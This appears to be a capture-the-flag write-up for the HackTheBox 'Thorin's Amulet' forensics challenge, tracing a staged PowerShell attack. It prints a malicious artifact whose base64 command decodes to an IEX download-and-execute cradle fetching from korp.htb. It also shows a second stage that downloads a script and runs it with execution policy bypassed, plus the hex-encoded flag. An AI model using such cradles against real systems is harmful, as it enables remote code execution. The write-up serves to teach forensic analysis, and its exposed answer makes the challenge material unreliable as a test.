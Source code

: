 ```yaml
---
title: Thorin’s Amulet
tags:
  - CTF
  - HackTheBox
  - CyberApocalypse
  - Forensics
  - Decrypting
date: 2025-03-21T00:00:00Z
---
```

Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

I found a base64 string inside the `artifact.ps1`:

```shell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
qt4PO
```

If I decode it from base64:

```shell
SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik=
# from base64
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

Now I visited the page: `korp.htb:38660/update` and it downloaded a file:

```shell
strings update.ps1 

function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
aqFVaq
```

Now I captured the request to `http://korp.htb/a541a` and added the new secret header:

![](Pasted%20image%2020250322121959.png)

```shell
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""
```

It seems to be a powershell script that decodes the message from hex:

![](Pasted%20image%2020250322122158.png)